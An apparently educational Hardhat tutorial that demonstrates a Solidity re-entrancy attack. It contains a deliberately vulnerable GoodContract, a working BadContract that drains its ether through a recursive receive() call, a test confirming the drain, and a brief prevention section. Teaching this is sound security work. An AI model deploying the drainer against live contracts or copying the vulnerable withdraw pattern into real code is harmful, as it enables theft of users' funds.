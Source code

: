 # Re-Entrancy

Who wants to do some hacking!!!

---

## What is Re-Entrancy?

- Contract A calls a function in contract B
- Then contract B callsback contract A while contract A is still processing

This can lead to some serious vulnerabilities in Smart contracts.

## Real World Examples?

[The DAO Attack](https://coinmarketcap.com/alexandria/article/a-history-of-the-dao-hack)

## Requirements

- There will be two contracts: GoodContract and BadContract
- BadContract should be able drain all the Eth out of the GoodContract

## Build

Lets build an example where you can experience how the Re-Entrancy attack happens.

- To setup a Hardhat project, Open up a terminal and execute these commands

  ```bash
  npm init --yes
  npm install --save-dev hardhat
  ```

- In the same directory where you installed Hardhat run:

  ```bash
  npx hardhat
  ```

  - Select `Create a basic sample project`
  - Press enter for the already specified `Hardhat Project root`
  - Press enter for the question on if you want to add a `.gitignore`
  - Press enter for `Do you want to install this sample project's dependencies with npm (@nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers)?`

Now you have a hardhat project ready to go!

If you are not on mac, please do this extra step and install these libraries as well :)

```bash
npm install --save-dev @nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers
```

and press `enter` for all the questions.

- Start by creating a new file inside the contracts directory called GoodContract.sol

```go
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract GoodContract {

    mapping(address => uint) public balances;

    /**
        addBalance is used to add ether to the user's balance
     */
    function addBalance() public payable {
        balances[msg.sender] += msg.value;
    }

    /**
        withdraw is used to remove the user's balance of ether
     */
    function withdraw() public {
        require(balances[msg.sender] > 0);
        (bool sent, ) = msg.sender.call{value: balances[msg.sender]}("");
        require(sent, "Failed to send ether");
        // This code becomes unreachable because the contract's balance is drained
        // before user's balance could have been set to 0
        balances[msg.sender] = 0;
    }
}
```

- GoodContract has two functions

  - addBalance() which adds ether balance for an address
  - withdraw() where users can withdraw all of their balance at once

- Now lets create another file inside the contracts directory known as `BadContract.sol`

```go
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.10;

    import "./GoodContract.sol";

    contract BadContract {
        GoodContract public goodContract;
        constructor(address _goodContractAddress) {
            goodContract = GoodContract(_goodContractAddress);
        }
        // Function to receive Ether. msg.data must be empty
        receive() external payable {
            if(address(goodContract).balance > 0) {
                goodContract.withdraw();
            }
        }
        /**
            attack would start an attack to withdraw all the funds from the
            goodContract
        */
        function attack() public payable {
            goodContract.addBalance{value: msg.value}();
            goodContract.withdraw();
        }
    }
```

- BadContract has two functions

  - contructor which takes in the GoodContract's address and intilializes its own instance of GoodContract
  - recieve() which gets called when contract recieves ethers and msg.data is empty
  - attack() is the function which the user will use to drain all the Eth out of the GoodContract, how it will do so is as follows:
    - Attack will call addBalance, making sure that BadContract's address has some balance in the GoodContract
    - Now it will try calling the `GoodContract` withdraw function which will first check that the BadContract has some balance and then it will send `Eth` equal to BadContract's address balance to the BadContract.
    - This will trigger the recieve function in the BadContract which will again call the withdraw function.
    - Now in the withdraw function because `balances[msg.sender] = 0;` has not been executed yet, the contract still believes that the BadContract's address has balance.
    - So it again sends the Eth equal to the amount of BadContract's balance to BadContract
    - This keeps happening till all the Eth in GoodContract is drained

- Replace all the code in your `hardhat.config.js` with the following code:

  ```javascript
  require("@nomiclabs/hardhat-waffle");

  // This is a sample Hardhat task. To learn how to create your own go to
  // https://hardhat.org/guides/create-task.html
  task("accounts", "Prints the list of accounts", async (taskArgs, hre) => {
    const accounts = await hre.ethers.getSigners();

    for (const account of accounts) {
      console.log(account.address);
    }
  });

  // You need to export an object to set up your config
  // Go to https://hardhat.org/config/ to learn more

  /**
   * @type import('hardhat/config').HardhatUserConfig
   */
  module.exports = {
    solidity: "0.8.10",
  };
  ```

- Now we would write a test to make sure that our BadContract is actually draining all the funds from the GoodContract

- Read [Hardhat Docs for testing](https://hardhat.org/tutorial/testing-contracts.html) before procedding

- Now create a file under the `test` folder named `attack.js`

- Add the following content to `attack.js`

  ```js
  const { expect } = require("chai");
  const { BigNumber } = require("ethers");
  const { ethers, waffle } = require("hardhat");

  describe("Attack", function () {
    it("Should empty the balance of the good contract", async function () {
      // Deploy the good contract
      const goodContract = await ethers.getContractFactory("GoodContract");
      const _goodContract = await goodContract.deploy();
      await _goodContract.deployed();
      console.log("Good Contract's Address", _goodContract.address);
      //Deploy the bad contract
      const badContract = await ethers.getContractFactory("BadContract");
      const _badContract = await badContract.deploy(_goodContract.address);
      await _badContract.deployed();
      console.log("Bad Contract's Address", _badContract.address);
      // Get two addresses
      const [_, addr1, addr2] = await ethers.getSigners();

      // User1 deposits 10 ether into the contract
      let tx = await _goodContract.connect(addr1).addBalance({
        value: ethers.utils.parseEther("10.0"),
      });

      await tx.wait();

      const provider = waffle.provider;

      // Check that at this point the GoodContract's balance is not zero
      let balanceETH = await provider.getBalance(_goodContract.address);
      expect(balanceETH).to.not.equal(BigNumber.from("0"));

      // User calls attack function
      tx = await _badContract.connect(addr2).attack({
        value: ethers.utils.parseEther("1.0"),
      });
      await tx.wait();

      balanceETH = await provider.getBalance(_goodContract.address);
      // Balance of the GoodContract's address is zero now
      expect(balanceETH).to.equal(BigNumber.from("0"));
    });
  });
  ```

- Now to finally execute the test, on your terminal type:

  ```
  npx hardhat test
  ```

- If all your tests are passing you have completed the module. Use the GoodContract's Address that was printed on your terminal to verify this level on the website

## Prevention

- Ensure all state changes happen before calling external contracts
- Use function modifiers that prevent re-entrancy

```go
    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }
```
